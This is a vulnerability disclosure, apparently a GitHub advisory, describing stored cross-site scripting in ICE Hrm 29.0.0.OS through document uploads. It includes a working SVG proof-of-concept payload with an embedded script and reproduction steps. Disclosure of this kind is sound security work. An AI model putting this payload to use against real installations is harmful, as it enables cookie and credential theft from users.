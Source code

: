 
# Author
Rafal Lykowski & Piyush Patil

# Description
The file upload feature in ICE Hrm Version 29.0.0.OS allows remote attackers to inject arbitrary HTML or JavaScript via a cross site scripting (XSS) vulnerability.

# Steps to Reproduce the issue:
1- Login to ICE Hrm Admin Panel

2- Click on Employees=>Document Management=> Upload a below xml file

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("XSS");
   </script>
</svg>
```

3- Visit the upload location of file and XSS will get triggered.

# Video POC: https://drive.google.com/file/d/1SnMsIhOJKBq4Pnotgm0nw1Pz7TypPsoQ/view?usp=sharing

# Impact
XSS can use to steal cookies, password or to run arbitrary code on a victim's browser
